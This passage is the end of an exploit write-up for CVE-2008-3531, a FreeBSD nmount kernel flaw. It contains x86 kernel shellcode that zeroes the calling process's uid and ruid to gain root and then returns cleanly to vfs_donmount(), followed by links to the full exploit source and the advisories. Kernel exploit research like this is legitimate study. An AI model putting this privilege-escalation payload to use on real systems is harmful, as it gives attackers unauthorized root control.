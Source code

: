 movl    <span style="color: #ff0000;">0x4</span><span style="color: #009900; font-weight: bold;">&#40;</span><span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span><span style="color: #009900; font-weight: bold;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span>     # get proc from curthread
movl    <span style="color: #ff0000;">0x30</span><span style="color: #009900; font-weight: bold;">&#40;</span><span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span><span style="color: #009900; font-weight: bold;">&#41;</span><span style="color: #339933;">,</span> <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span>    # get ucred from proc
xorl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">ecx</span><span style="color: #339933;">,</span> <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">ecx</span>          # <span style="color: #46aa03; font-weight: bold;">ecx</span> = <span style="color: #ff0000;"></span>
movl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">ecx</span><span style="color: #339933;">,</span> <span style="color: #ff0000;">0x4</span><span style="color: #009900; font-weight: bold;">&#40;</span><span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span><span style="color: #009900; font-weight: bold;">&#41;</span>     # ucred<span style="color: #339933;">.</span>uid = <span style="color: #ff0000;"></span>
movl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">ecx</span><span style="color: #339933;">,</span> <span style="color: #ff0000;">0x8</span><span style="color: #009900; font-weight: bold;">&#40;</span><span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span><span style="color: #009900; font-weight: bold;">&#41;</span>     # ucred<span style="color: #339933;">.</span>ruid = <span style="color: #ff0000;"></span>
&nbsp;
# return to the pre<span style="color: #339933;">-</span>previous function<span style="color: #339933;">,</span> i<span style="color: #339933;">.</span>e<span style="color: #339933;">.</span> vfs_donmount<span style="color: #009900; font-weight: bold;">&#40;</span><span style="color: #009900; font-weight: bold;">&#41;</span>
addl    <span style="color: #0000ff; font-weight: bold;">$</span><span style="color: #ff0000;">0xe8</span><span style="color: #339933;">,</span> <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">esp</span>
popl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">ebx</span>
popl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">esi</span>
popl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">edi</span>
popl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">ebp</span>
<span style="color: #00007f; font-weight: bold;">ret</span></pre>
      </td>
    </tr>
  </table>
</div>

Now we have a way to safely return from kernel to userland and ensure the continuation of the exploited system. The complete exploit is (you can download it from [here][10]):


 [1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-3531
 [2]: http://security.freebsd.org/advisories/FreeBSD-SA-08:08.nmount.asc
 [3]: http://www.freebsd.org/cgi/man.cgi?query=nmount&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [4]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=8&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [5]: http://www.freebsd.org/cgi/man.cgi?query=mmap&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [6]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=3&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [7]: http://census-labs.com/research/#kernexp
 [8]: http://www.blackhat.com/presentations/bh-usa-03/bh-us-03-cesare.pdf
 [9]: http://census-labs.com/media/cve-2008-3531-kernelcode.s
 [10]: http://census-labs.com/media/cve-2008-3531.c